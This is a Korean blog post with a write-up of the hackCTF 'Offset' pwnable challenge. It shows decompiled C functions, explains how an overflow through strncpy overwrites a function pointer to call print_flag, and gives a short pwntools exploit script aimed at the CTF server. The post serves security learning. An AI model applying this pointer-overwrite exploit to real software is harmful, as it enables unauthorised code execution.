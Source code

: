 ```yaml
---
layout: post
title:  "[hackCTF]Offset"
date:   2020-02-18
categories: [hackCTF]
tags: [hackCTF]
permalink: '/hackCTF'
---
```


hackCTF pwnable 8번째 문제

![favicon](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/favicons.png?raw=true)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1h] [ebp-27h]
  int * v5; // [esp+20h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, (char * )&dword_0 + 2, 0, 0);
  puts("Which function would you like to call?");
  gets(&s);
  select_func(&s);
  return 0;
}
```

## ida - select_func
```c
int __cdecl select_func(char *src)
{
  char dest; // [esp+Eh] [ebp-2Ah]
  int (*v3)(void); // [esp+2Ch] [ebp-Ch]

  v3 = (int (*)(void))two;
  strncpy(&dest, src, 0x1Fu); // src의 값을 dest에 저장한다
  if ( !strcmp(&dest, "one") ) // dest의 값이 "one"이면
    v3 = (int (*)(void))one; // v3에 one함수의 주소를 저장한다
  return v3();
}
```

## ida - one
```c
int one()
{
  return puts("This is function one!");
}
```

## ida - print_flag
```c
int print_flag()
{
  char i; // al
  FILE * fp; // [esp+Ch] [ebp-Ch]

  puts("This function is still under development.");
  fp = fopen("flag.txt", "r");
  for ( i = _IO_getc(fp); i != -1; i = _IO_getc(fp) )
    putchar(i); // flag 값을 출력한다
  return putchar(10);
}
```

## ida - two
```c
int two()
{
  return puts("This is function two!");
}
```
<br>

정리해보자.<br><br>

***

|  v3  | esp+0x2C |
|:----:|:--------:|
|  ... |          |
| dest |  esp+0xE |

***
<br>
select_func에서 src의 값을 dest에 저장할 때 print_flag함수 주소로 v3까지 덮으면 return v3();에서 print_flag를 실행할 수 있을 것이다.<br><br>
목표 : select_func에서 v3를 print_flag 주소로 덮기<br>
취약점 : strncpy(&dest, src, 0x1Fu)<br><br><br>
+) print_flag Offset

![0801](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0801.JPG?raw=true)

offset을 알기 때문에 off-by-one 기법이 적용되었음ㅇㅇ

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3007)

payload = "A"*(0x2c-0xe)+p32(0x000006D8)

p.sendline(payload)

p.interactive()
```

## 결과
![0802](https://github.com/kkarung/kkarung.github.io/blob/master/assets/image/hackCTF/0802.JPG?raw=true)
